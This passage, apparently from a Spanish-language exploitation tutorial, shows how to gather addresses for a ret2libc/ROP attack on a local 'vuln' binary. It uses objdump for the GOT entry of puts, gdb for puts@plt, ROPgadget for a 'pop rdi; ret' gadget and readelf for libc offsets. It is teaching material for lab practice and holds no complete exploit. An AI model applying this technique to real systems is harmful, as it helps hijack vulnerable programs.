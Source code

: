 La primera forma de conseguirlo es usando el comando ```objdump``` pero ahora de esta forma ```objdump -R vuln```

```
objdump -R vuln                                                                    06:12:23 

vuln:     formato del fichero elf64-x86-64

DYNAMIC RELOCATION RECORDS
OFFSET           TYPE              VALUE 
0000000000403fe0 R_X86_64_GLOB_DAT  __libc_start_main@GLIBC_2.34
0000000000403fe8 R_X86_64_GLOB_DAT  _ITM_deregisterTMCloneTable@Base
0000000000403ff0 R_X86_64_GLOB_DAT  __gmon_start__@Base
0000000000403ff8 R_X86_64_GLOB_DAT  _ITM_registerTMCloneTable@Base
0000000000404018 R_X86_64_JUMP_SLOT  puts@GLIBC_2.2.5 <--
0000000000404020 R_X86_64_JUMP_SLOT  printf@GLIBC_2.2.5
0000000000404028 R_X86_64_JUMP_SLOT  gets@GLIBC_2.2.5
```
Podemos ver que obtuvumos la direccion de ```puts@GLIBC```, esto es lo mismo que GOT solo que se obtiene el nombre de ```glibc``` ya que es la direccion externa de puts.

Para la segunda forma usaremos gdb, y la direccion que nos salio de puts@plt mostraremos su contenido con el comando ```disassemble 0x401030```, esto nos debe de mostrar esto:

```
gef➤  disassemble 0x401030
Dump of assembler code for function puts@plt:
   0x0000000000401030 <+0>:	jmp    QWORD PTR [rip+0x2fe2]        # 0x404018 <puts@got.plt>
```
Aun que sean diferentes podemos usar cualquiera de las dos.

## Sacando la direccion de pop rdi; ret

Para esta parte usaremos un gadget que nos servira para meter cualquier cosa a ```rdi``` (si aun no vez el post de ret2libc bypass NX te recomiendo verlo, ahi explico mas a detalle esto de ROP y los gadgets).

De igual manera podemos hacerlo de dos formas, la primera y mas sencilla es usar ROPgadget con el comando ```ROPgadget --binary vuln``` y buscar donde diga ```pop rdi ; ret``` (yo lo hare con ROPgadget), y la otra es calcularla a travez de la direccion de puts, esto lo haremos con el comando ```readelf``` de esta forma:

```
readelf -s /usr/lib/libc.so.6 | grep puts@@
```
Nos muestra la direccion
```
readelf -s /usr/lib/libc.so.6 | grep puts@@                                        06:39:55 
   808: 0000000000079280   294 FUNC    WEAK   DEFAULT   14 fputs@@GLIBC_2.2.5
  1429: 000000000007a6f0   409 FUNC    WEAK   DEFAULT   14 puts@@GLIBC_2.2.5
  1438: 000000000007a6f0   409 FUNC    GLOBAL DEFAULT   14 _IO_puts@@GLIBC_2.2.5
```
Y podriamos usar esta ```000000000007a6f0```

Lo que deben de modificar es la ruta de libc, la pueden sacar con el comando ldd

